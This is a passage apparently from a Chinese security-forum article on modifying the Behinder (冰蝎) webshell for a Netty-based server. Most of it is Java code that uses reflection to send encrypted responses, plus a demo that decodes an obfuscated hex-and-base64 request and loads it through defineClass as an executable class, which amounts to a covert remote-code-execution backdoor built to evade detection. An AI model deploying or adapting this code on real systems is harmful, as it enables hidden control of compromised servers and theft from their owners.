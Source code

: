 ```php
Method addResponseMethod = contextClass.getDeclaredMethod("writeAndFlush", new Class[]{Object.class});
addResponseMethod.setAccessible(true);
Object addListnerObject = addResponseMethod.invoke(Request, responseObject);
Method addListnerMethod = addListnerObject.getClass().getDeclaredMethod("addListener", new Class[]{GenericClass});
addListnerMethod.setAccessible(true);
addListnerMethod.invoke(addListnerObject, lisCloseObject);
} else {
so = this.Response.getClass().getMethod("getOutputStream").invoke(this.Response);
write = so.getClass().getMethod("write", byte[].class);
write.invoke(so, this.Encrypt(this.buildJson(result, true)));
so.getClass().getMethod("flush").invoke(so);
so.getClass().getMethod("close").invoke(so);
}
```

冰蝎的其他模块做同样处理即可。

**0.3.4** **冰蝎加密方式及类加载方式修改**

这里给出一种自定义的冰蝎的加密方式如下：  
![image062.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-e6467ce2578003e78dd534bb601bf89dc47dcad9.png)  
加上一种类加载的加密方式的Demo如下：

```php
private void send(ChannelHandlerContext ctx,String message) throws ClassNotFoundException, NoSuchFieldException, IllegalAccessException, NoSuchMethodException, InvocationTargetException, InstantiationException, IOException, IOException {
String requestMessage = message;
Object response = new DefaultFullHttpResponse(HttpVersion.HTTP_1_1, HttpResponseStatus.OK, Unpooled.copiedBuffer("123", CharsetUtil.UTF_8));
Object session = null;
Map<String,Object> objects = new HashMap<String,Object>();
objects.put("session",session);
objects.put("response",response);
objects.put("request",ctx);
Method method = ClassLoader.class.getDeclaredMethod("defineClass",byte[].class,int.class,int.class);
method.setAccessible(true);
String deStr="";
System.out.println(requestMessage.length());
for(int i=0;i<requestMessage.length();i=i+2){
            String str2 = requestMessage.substring(i,i+2);
            char char2 = (char)(Integer.parseInt(str2,16)-1);
            deStr = deStr + char2;
}
byte[] contentBytes = base64De(deStr);
((Class)method.invoke(new URLClassLoader(new URL[]{},this.getClass().getClassLoader()),contentBytes,0,contentBytes.length)).newInstance().equals(objects);
}
```
